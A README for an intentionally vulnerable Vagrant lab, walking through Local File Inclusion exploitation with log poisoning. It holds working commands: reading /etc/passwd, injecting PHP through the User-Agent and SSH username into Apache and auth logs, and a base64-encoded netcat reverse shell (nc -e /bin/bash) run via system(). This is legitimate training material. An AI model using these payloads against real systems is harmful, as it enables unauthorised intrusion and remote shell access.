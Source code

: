 # lab-hack-lfi

This is a laboratory to work with the [LFI (Local File Inclusion)](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_file_inclusion) vulnerability. This Vagrant box is intentionally vulnerable. It hosts an LFI vulnerable website built in PHP and the filesystem permissions were modified to allow user `www-data` to read the Apache 2 and auth logfiles. The application is composed by two files, a vulnerable `index.php` file who uses the `include` statement to import another file defined in the request URL's `filename` parameter. The file to import is `hello.php` which prints a `Hello world!` message in the website. Test it visiting http://10.10.10.10/index.php?filename=hello.php.

The goal of this laboratory is to get a shell session as the `www-data user` exploiting an LFI vulnerability and using Log Poisoning.

| Machine name | lab-hack-lfi               |
| ------------ | -------------------------- |
| IP address   | 10.10.10.10                |
| OS           | Debian GNU/Linux 10 Buster |

Download and start the virtual machine:

```
$ git clone https://gitlab.com/josebamartos/lab-hack-lfi
$ cd lab-hack-lfi
$ vagrant up
```

Test if including files works:

```
$ curl http://10.10.10.10/index.php?filename=hello.php
Hello world!
```

Try to include another system file:

```
$ curl http://10.10.10.10/index.php?filename=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
memcache:x:106:113:Memcached,,,:/nonexistent:/bin/false
postfix:x:107:115::/var/spool/postfix:/usr/sbin/nologin
vboxadd:x:998:2::/var/run/vboxadd:/sbin/nologin
```

Check if logs can be accessed:

```
$ curl http://10.10.10.10/index.php?filename=/var/log/apache2/access.log
10.10.10.1 - - [29/Jan/2022:09:10:32 +0000] "GET /index.php?filename=hello.php HTTP/1.1" 200 160 "-" "curl/7.81.0"
10.10.10.1 - - [29/Jan/2022:09:10:48 +0000] "GET /index.php?filename=/etc/passwd HTTP/1.1" 200 1734 "-" "curl/7.81.0"
```
Try to inject PHP in the user agent:

```
$ curl -H "User-Agent: <?php system('whoami') ?>" http://10.10.10.10/index.php?filename=hello.php
```

Check if the website interprets the PHP code when showing the log file contents:

```
10.10.10.1 - - [29/Jan/2022:09:10:32 +0000] "GET /index.php?filename=hello.php HTTP/1.1" 200 160 "-" "curl/7.81.0"
10.10.10.1 - - [29/Jan/2022:09:10:48 +0000] "GET /index.php?filename=/etc/passwd HTTP/1.1" 200 1734 "-" "curl/7.81.0"
$ curl http://10.10.10.10/index.php?filename=/var/log/apache2/access.log
10.10.10.1 - - [29/Jan/2022:09:12:27 +0000] "GET /index.php?filename=hello.php HTTP/1.1" 200 160 "-" "www-data
```

It does! You can see `www-data` at the end of the last line.

Another place where PHP code can be injected is in `/var/log/auth`. If you can read this file using LFI, you can try to inject PHP code in the username part of a SSH login request. Do this using a wrong password, it doesn't matter.

```
$ ssh "<?php system('pwd'); ?>"@10.10.10.10
```

Read the logfile:

```
$ curl http://10.10.10.10/index.php?filename=/var/log/auth.log
```

```
[...]
Jan 29 09:18:56 debian10 sshd[12121]: Invalid user /var/www/html
 from 10.10.10.1 port 51018
Jan 29 09:18:57 debian10 sshd[12121]: Failed none for invalid user /var/www/html
 from 10.10.10.1 port 51018 ssh2
Jan 29 09:18:58 debian10 sshd[12121]: Connection closed by invalid user /var/www/html
 10.10.10.1 port 51018 [preauth]
```

It also worked! You can see `/var/www/html` path after each "invalid user" string.

We will use this technique to send a reverse shell against our local machine. In a new terminal window, use `netcat` to listen for TCP connections:

```
$ nc -nlvp 8080
```

Now, we will inject PHP code into `/var/log/auth.log` file using the SSH login, this code will open a reverse shell connection against your workstation when you visit http://10.10.10.10/index.php?filename=/var/log/auth.log.

This is the command we want to run inject to the logfile:
 
```
$ echo "nc -e /bin/bash 10.10.10.1 8080"
```

We can try to inject it as we did with `pwd` but the syntax of the new one is more complex and characters like whitespaces and symbols can truncate it before arriving to the server. To ensure command's integrity we sill send it in base64.

First of all, you must encode the reverse shell command in base64 to ensure it arrives correctly to the server.

```
$ echo "nc -e /bin/bash 10.10.10.1 8080" | base64
bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwLjEgODA4MAo=
```

You can directly run code in base64 decoding it and sending it to bash. Don´t run this, it's just for clarification.

```
$ echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwLjEgODA4MAo | base64 -d | bash
```

Inject the command using the SSH login.

```
$ ssh '<?php system("echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwLjEgODA4MAo | base64 -d | bash") ?>'@10.10.10.10
```

The reverse shell will arrive to the terminal window where netcat is listening:

```
$ nc -nlvp 8080
Connection from 10.10.10.10:54070
whoami
www-data
```

Voilà !
